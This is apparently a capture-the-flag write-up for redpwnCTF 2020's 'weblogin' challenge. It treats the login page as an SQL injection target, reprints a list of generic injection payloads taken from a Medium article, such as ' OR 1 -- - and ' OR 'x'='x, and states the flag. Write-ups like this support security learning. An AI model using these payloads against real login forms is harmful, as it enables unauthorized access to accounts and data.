

# weblogin

## Challenge

"I made a cool login page. I bet you can't get in!

Site [login.2020.redpwnc.tf](https://login.2020.redpwnc.tf/)"

## Process

Considering this is a simple login page, and this is an early web challenge, this challenge is likely a simple SQL injection challenge. 

[This](https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b) website lists many SQL inject payloads which I have listed below.

```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
```



The flag is flag{0bl1g4t0ry_5ql1}.